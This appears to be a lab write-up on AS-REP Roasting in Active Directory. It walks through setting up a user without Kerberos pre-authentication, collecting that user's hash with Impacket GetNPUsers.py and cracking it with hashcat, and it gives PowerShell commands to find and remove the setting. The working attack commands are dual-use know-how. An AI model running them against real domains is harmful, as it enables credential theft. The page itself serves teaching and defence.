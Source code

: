 # AS-REP Roasting

## Configuring

1. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (6).png>)

2\. Click on "View" and enable "Avanced Features"

![](<../../../.gitbook/assets/image (4) (1) (1).png>)

3\. Open "Employees", right click the user `Richard` and click on "Properties"

![](<../../../.gitbook/assets/image (64) (1).png>)

4\. Open "Account" and scroll to the bottom in "Account options", then select "Do not require kerberos preauthentication".

![](<../../../.gitbook/assets/image (39) (1).png>)

5\. Right click on `Richard` and select "Reset Password". Uncheck "User must change password at next logon" and fill in the password `Sample123`. Click on "OK"

![](<../../../.gitbook/assets/image (65).png>)

## Attacking

### How it works

When pre-authentication is not required, an attack can directly send a request for authentication. The KDC will return an encrypted TGT and the attacker can brute-force it offline.

### Tools

* [Impacket GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

### Executing the attack

1. Make sure impacket is installed and run the GetNPUsers.py tool with the users we enumerated earlier. The tool will check if any of the enumerated users doesn't require pre-authentication and will request a ticket which we can crack offline.

```
GetNPUsers.py amsterdam/ -usersfile users.txt -format hashcat -outputfile asreproastinng
```

![](<../../../.gitbook/assets/image (7).png>)

2\. The tool doesn't say anything about users that don't require pre-authentication. Check if the outputfile exists and cat it:

```
cat asreproasting
```

![](<../../../.gitbook/assets/image (43) (1) (1).png>)

3\. The user richard doesn't require pre-authentication and we have an hash from the TGT. Lets crack it with hashcat and [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200\_most\_used\_passwords.txt) wordlist. The hashcat parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `asreproasting`
* Password list: `2020-200_most_used_passwords.txt`

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200_most_used_passwords.txt
hashcat -a 0 -m 18200 asreproasting 2020-200_most_used_passwords.txt
```

![](<../../../.gitbook/assets/image (10).png>)

4\. We succesfully cracked the password. The password for `Richard` is `Sample123`.

## Defending

### Recommendations

* Periodically check for users that don't require pre-authentication and remove the attribute.

Check for users with the attribute:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Select-Object samAccountName
```

Remove the attribute for a single user:

```
Set-ADAccountControl -DoesNotRequirePreAuth $false -Identity <USER>
```

Check for users with the attribute and remove it:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false
```

### Detection



## References

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}
